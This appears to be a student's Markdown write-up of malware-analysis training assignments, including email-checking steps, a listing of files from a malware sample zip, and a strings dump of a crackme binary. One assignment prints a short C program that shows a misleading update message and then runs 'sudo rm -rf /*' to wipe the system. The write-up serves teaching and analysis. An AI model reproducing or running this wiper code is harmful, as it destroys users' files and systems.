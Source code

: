 # 📌 Day-6: Malware Analysis.

There is two type of Malware analysis
	i. Static Analysis - With out running the malware, just by using dissembler or sysinternals
	ii. Dynamic Analysis - by running the virus on sandbox's

## 📍**TOPIC 7 - Malware Hunting**

### *🔰Assignment-1:*

1) What type of security breaches you may encounter as an incident responder?
> Information and Path disclosure
> DDOS Attacks

2) To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, Checking if the Email is Not Spam
	b, Check if the email is Legitimate.
	c, Identify where you got the email.
	d, Try to look the mail sent, to check if you got suspecious.

### *🔰Assignment-2:*  -> Made with the Attacked "malware_sample.zip" file.

### 1) Identify new created processes, services
	> This file contains 
```bash
ls
	cczice.cmd  gupd.rar   IDM.vbs.a.zip  qgwlykqcyz..vbs  tvsymypco.js
	dulla.rar   IDM.vbs.a  kvwpjmygv.js   sslp2017.vbs
```

	we couldn't got the process and service, by technical difficulty.
<img src="MalwareAnalysis/aurorun1.jpg" alt="Autorun picture">

### 2) Identify persistence folders , registers
<img src="MalwareAnalysis/autorun.jpg" alt="Autorun picture">

## 📍**TOPIC 8 - Malware Analysis and Reverse Engineering**

### *🔰Assignment-1:* Static Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.
<img src="MalwareAnalysis/error.png" alt="Error of The file">

### *🔰Assignment-2:* Dynamic Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.

### *🔰Assignment-3:* Code Analysis
	 A Code is Given todo analysis on it.
	 Code:
### 👉*We add a Library*
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
```
### 👉*We Will Define The variables*
```c
#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."
```
### 👉*Checks if the system/user/ is admin{ and deletes all files from the /(root) else shows and error_text* 
[ done by checking the UID, UID 0 is root else it is normal user]
```c
int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```
### *🔰Assignment-4: Reverse Engineering **1*** 

It gives as a File That ask for a Flag
> I tryed to get the strings of the binary

```bash
┌──(rexder㉿Rex)-[~/INSA/InitProgramming/MalwareAnalysis]
└─$ strings cm_rb_easy 
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
strcpy
puts
strlen
__stack_chk_fail
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u3UH
[!] Usage: ./cmRubiks flag
[!] The flag is too long...
[!] Bad flag!
[*] G00d flag!
```


